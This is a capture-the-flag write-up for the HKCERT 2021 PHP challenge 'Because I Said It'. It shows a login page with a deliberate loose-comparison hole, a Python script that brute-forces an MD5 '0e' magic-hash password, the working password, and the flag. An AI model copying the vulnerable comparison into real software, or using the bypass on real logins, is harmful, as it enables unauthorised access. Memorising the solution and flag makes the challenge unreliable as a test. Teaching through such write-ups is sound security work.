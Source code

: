 # Because I Said It (150 point, 76 solves, ★☆☆☆☆)

Solved by: Kaiziron and grhkm

### Description :
```
If you can solve Rickroll in 2020, you will be able to solve it. Probably.

本題所使用的 PHP 版本為 8.0.12。
The PHP version used for the challenge is 8.0.12.

http://chalf.hkcert21.pwnable.hk:28156/
```
---
### Solution :

The website has a login page :

![](https://i.imgur.com/MZguk93.png)

The `Check Here` link will show the source code of the page

```php
<?php
session_start();

if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
    header("location: welcome.php");
    exit;
}

$username = $password = "";
$username_err = $password_err = $login_err = "";

if($_SERVER["REQUEST_METHOD"] == "POST"){

    if ((strlen($_POST["username"]) > 24) or strlen($_POST["password"]) > 24) {
        header("location: https://www.youtube.com/watch?v=2ocykBzWDiM");
        exit();
    }

    if(empty(trim($_POST["username"]))){
        $username_err = "Please enter username.";
    } else{
        $username = trim($_POST["username"]);
        if(empty(trim($_POST["password"]))){
            $password_err = "Please enter your password.";
        } else{
            $password = trim($_POST["password"]);
            if (!ctype_alnum(trim($_POST["password"])) or !ctype_alnum(trim($_POST["username"]))) {
                switch ( rand(0,2) ) {
                    case 0:
                    header("location: https://www.youtube.com/watch?v=l7pP3ydt3tU");
                    break;
                    case 1:
                    header("location: https://www.youtube.com/watch?v=G094II5gIsI");
                    break;
                    case 2:
                    header("location: https://www.youtube.com/watch?v=0YQtsez-_D4");
                    break;
                    default:
                    header("location: https://www.youtube.com/watch?v=2ocykBzWDiM");
                    exit();
                }   
            }
        }
    }    

    if ($username === 'hkcert') {
        if( hash('md5', $password) == 0 &&
            substr($password,0,strlen('hkcert')) === 'hkcert') {
            if (!exec('grep '.escapeshellarg($password).' ./used_pw.txt')) {

                $_SESSION["loggedin"] = true;
                $_SESSION["username"] = $username;

                $myfile = fopen("./used_pw.txt", "a") or die("Unable to open file!");
                fwrite($myfile, $password."\n");
                fclose($myfile);
                header("location: welcome.php");

            } else {
                $login_err = "Password has been used.";
            }

        } else {
            $login_err = "Invalid username or password.";
        }
    } else {
        $login_err = "Invalid username or password.";
    }
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
    body{ font: 14px sans-serif; }
    .wrapper{ width: 360px; padding: 20px; }
</style>
</head>
<body>
    <div class="wrapper">
        <h2>Login</h2>
        <p>Please fill in your credentials to login.</p>

        <?php 
        if(!empty($login_err)){
            echo '<div class="alert alert-danger">' . $login_err . '</div>';
        }        
        ?>

        <form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control <?php echo (!empty($username_err)) ? 'is-invalid' : ''; ?>" value="<?php echo $username; ?>">
                <span class="invalid-feedback"><?php echo $username_err; ?></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control <?php echo (!empty($password_err)) ? 'is-invalid' : ''; ?>">
                <span class="invalid-feedback"><?php echo $password_err; ?></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <p>Want hints? <a href="source.php">Check Here</a>.</p>
        </form>
    </div>
</body>
</html>
```
There is a if statement to check the length of the username and the password :
```php
    if ((strlen($_POST["username"]) > 24) or strlen($_POST["password"]) > 24) {
        header("location: https://www.youtube.com/watch?v=2ocykBzWDiM");
        exit();
    }
```
The username and password can't be longer than 24 characters, otherwise it will redirect to youtube

```php
    if ($username === 'hkcert') {
        if( hash('md5', $password) == 0 &&
            substr($password,0,strlen('hkcert')) === 'hkcert') {
            if (!exec('grep '.escapeshellarg($password).' ./used_pw.txt')) {

                $_SESSION["loggedin"] = true;
                $_SESSION["username"] = $username;

                $myfile = fopen("./used_pw.txt", "a") or die("Unable to open file!");
                fwrite($myfile, $password."\n");
                fclose($myfile);
                header("location: welcome.php");

            } else {
                $login_err = "Password has been used.";
            }

        } else {
            $login_err = "Invalid username or password.";
        }
    } else {
        $login_err = "Invalid username or password.";
    }
```

This part of the code, will first check that the username need to be `hkcert`, however the second line used loose comparison which makes it vulnerable

Then the third line check if the password start with `hkcert`, if someone logged in successfully, the password will be saved on `used_pw.txt` and can't be used again

In php 8, if loose comparison `==` is used, strings start with 0e and if all characters after it are numbers, it will be equal to 0

Example :
```
echo 0e1234567890 == 0;
1
```

So we have to find a string that is start with `hkcert`, not longer than 24 characters, not used by anyone before and the md5 hash is start as 0e and all characters after it are numbers

So I used this script to find the needed hash :

```python
import sys
import hashlib

k = int(sys.argv[1])
while True:
    magic_hash = f"hkcertdsesucks{k}"
    md5_hash = hashlib.md5(magic_hash.encode()).hexdigest()
    if md5_hash[:2] == '0e' and md5_hash[2:].isnumeric():
        print(md5_hash)
        print(magic_hash)
    k += 1
```

After a while, a string with the md5 hash as `0e878814216701067617673816681096` is found

```
python3 magic_hash.py 7000000 
0e878814216701067617673816681096
hkcertdsesucks339691973
```

Then just use the username as `hkcert` and password as `hkcertdsesucks339691973`, we can bypass the login and get the flag

![](https://i.imgur.com/YrFJAk8.png)



### Flag :
`hkcert21{php_da_b3st_l4ng3ag3_3v3r_v3ry_4ws0m3}`

---
